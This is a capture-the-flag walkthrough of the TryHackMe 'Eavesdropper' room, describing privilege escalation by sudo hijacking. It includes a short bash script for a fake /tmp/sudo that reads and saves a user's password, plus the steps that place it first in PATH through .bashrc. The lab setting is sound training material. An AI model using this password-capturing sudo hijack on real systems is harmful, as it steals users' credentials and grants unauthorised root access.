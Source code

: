 <h1>TryHackMe - Eavesdropper</h1>
<img src="./img/logo.png" alt="logo" width="500">
<a href="https://tryhackme.com/room/eavesdropper">Room Link</a>
<h4>
    There are two ways to solve this machine.
    <ol>
        <li>Intended Way</li>
        <li>Unintended Way</li>
    </ol>
</h4>
<h4>
    You can follow the steps below to solve it using the intended way or you can check out another writeup by
    <code>xyro</code> who found an unintended way to solve this machine which is something very few people would have
    found and his approach to solve this machine is also unique. Link to his write is here => <a
        href="http://xyro.codes/THM/eavesdropper/writeup.html">xyro's writeup</a>
</h4>

<p>
    <strong>Intended way :</strong>
    <ul>
        <li>
            <strong>Step 1 :</strong><br>
            LogIn to the machine using <code>idrsa.id-rsa</code> provided in task 1 with username <code>frank</code>.
        </li>
        <li>
            <strong>Step 2 :</strong><br>
            Transfer <code>pspy</code> onto the target machine and run it for a while.<br>
            There are a few things we notice.<br>
            User frank is logging in via ssh and then running the command <code>sudo cat /etc/shadow</code><br>
            We can perform <code>sudo hijacking</code> on this.
        </li>
        <li>
            <strong>Step 3 :</strong><br>
            Time for <a href="https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-hijacking">sudo
                hijacking</a>.
            While creating our sudo executable, we have to be a little bit creative. Trying to get a reverse shell won't
            be useful. If u hijack sudo so that it spawns a reverse shell instead, the reverse shell u get back would be of
            the frank user because the sudo elevation hasn't happened yet. Instead we can capture the password entered by
            frank using a little bit of shell scripting. (Thanks you xyro for these words 😁).<br>
            Follow these steps to capture the password using our sudo executable.
            <ol>
                <li>
                    <code>touch /tmp/sudo</code> creating our own sudo executable.
                </li>
                <li>content of sudo file <br>
                    ```
                    #!/bin/bash
read -s pass # after executes the command, this will read the password entered by frank and store it in the pass variable
echo $pass > /home/frank/pass.txt # echoing the password from pass variable to pass.txt so that we can read it once catured.
```
                </li>
                <li>
                    <code>chmod +x /tmp/sudo</code>
                </li>
                <li>
                    Modify you <code>$PATH</code> variable using <code>.bashrc</code> <br>
                    <img src="./img/bashrc.png" alt="bashrc"> <br>
                    Save the changes and wait for a few seconds after which you will see a pass.txt which has the password
                    that can be used to switch to root.
                </li>
            </ol>
        </li>
        <li>
            <strong>Step 4 :</strong><br>
            Copy the password from pass.txt and do <code>/usr/bin/sudo su</code> and get the root flag.
        </li>
    </ul>
    <h1>
        Solved 😁
    </h1>
    <p>
        Once you are done with this. <br> Make sure to ckeck out <a href="http://xyro.codes/THM/eavesdropper/writeup.html">xyro's writeup</a><br>
        His method is super awesome 👍🏻
    </p>

</p>
